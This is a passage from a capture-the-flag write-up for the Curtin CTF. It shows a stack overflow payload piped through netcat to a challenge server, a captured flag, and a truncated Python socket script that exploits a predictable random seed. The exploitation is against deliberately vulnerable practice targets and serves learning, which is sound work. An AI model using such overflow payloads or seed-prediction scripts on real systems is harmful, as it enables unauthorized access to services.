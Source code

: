 ![97](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image097.png)

![98](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image098.png)

It shows the input and the showflag value what if we overflow same like previous question?

![99](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image099.png)

Same as previous question. But the condition is now 0xf && 0x405 . now we can send the directly payload.

```
echo 'AAAAAAAAAAAAAAAAAAAAB\x00\x00\x00\x05\x04\x00\x00\xf' | nc 3.26.44.175 3335
```

![100](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image100.png)

I try to run directly from my WSL. But I don’t get the output. Now try on different machine. Then we get the flag.

![101](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image101.png)

```
Flag: CURTIN_CTF{P4YL04D_OV3RF10W}
```
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Let The Random Games Begin 2

(Author: OS1RIS)

![102](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image102.png)

![103](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image103.png)

These times the value is random

![104](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image104.png)

Craft my simple python , the value that we get from ‘Begin 1’
Waiting seed to be 1804289383 .Then using the number from first Don’t go overboard 1

```
import socket

addr = '3.26.44.175'
port = 3338

def ncThisPlis(s):
    def recv_until(s, read):
        data = b''
        while read.encode('utf-8') not in data:
            chunk = s.recv(1024)
            if not chunk:
                break
            data += chunk
        return data.decode('utf-8').strip()

    while True:
        line = recv_until(s, "The random number is 1804289383")
        print(line)

        s.sendall(b"846930886\n")
        s.sendall(b"1681692777\n")
        s.sendall(b"1714636915\n")
        s.sendall(b"1957747793\n")

```